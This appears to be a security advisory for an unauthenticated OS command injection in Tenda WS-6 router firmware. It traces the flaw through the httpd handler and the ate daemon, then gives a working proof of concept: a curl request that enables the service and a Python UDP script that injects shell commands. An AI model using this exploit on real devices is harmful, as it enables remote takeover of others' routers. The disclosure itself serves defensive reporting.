




# Tenda WS-6 Pre-authentication Remote Code Execution via OS Command Injection

## Description

Tenda's **ate** service (`/bin/ate`) which runs on port 7329 is vulnerable to unauthenticated command injection using a crafted UDP packet. The **ate** service can be enabled by a remote attacker on demand via endpoint `/goform/ate` in `/bin/httpd`.

## Details

*   **Vendor**: Tenda

*   **Product**: Tenda WS-6

*   **Firmware Version**: V1.0.0.4(510)

*   **Firmware Download**: https://www.tenda.com.cn/material/show/2627

*   **Components**:
    * `/goform/ate` (TendaAte handler)
    * `/bin/ate`

*   **Vulnerability Type**: OS Command Injection (CWE-78)

*   **CVE ID**: Requested

*   **Reported by**: Charbel


## Technical Breakdown

By looking at the security handler in `/bin/httpd` we notice that the `/goform/ate` endpoint (associted to `TendaAte` handler) doesn't require any form of authentication or identity verification.

Looking at the `TendaAte` handler, we notice that it enables a background process called `ate`.



Looing at `/bin/ate`, we see that it listens for connections on port 7329 where UDP packets are received and processed



Further down we see the code responsible for processing the content of UDP packets. We notice that the pattern `ifconfig;iwpriv` is handled in a special way. The content is split on `;` and each command is processed in the `for` loop. We notice that commands starting with `impriv` are executed using `doSsytemCmd` without any input sanitization thus giving us the ability to inject commands via `iwpriv`.



## PoC

First we enable `ate`
```
curl http://172.16.182.130/goform/ate
```

Then we send a crafted UDP packet to the `ate` daemon. Notice that we have to use `&` instead of `;` in our injected payload for this to work because the processing code in `ate` splits our input on `;` which would cause our injection to fail.

```
#!/usr/bin/env python3
# file: ate_exp.py

import socket
import time
import os

sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)

server_address = ('172.16.182.130', 7329)
command = b'ls -la'
message = b'iwpriv wlan0 &' + command

try:
    print(f'Sending: {message}')
    sock.sendto(message, server_address)

    data, server = sock.recvfrom(4096)
    print(f'Received: {data}')
finally:
    sock.close()
```

To see the output we can attach to the output stream of the `ate` process or simply run `ate` ourselves and send the crafted UDP packet to it.


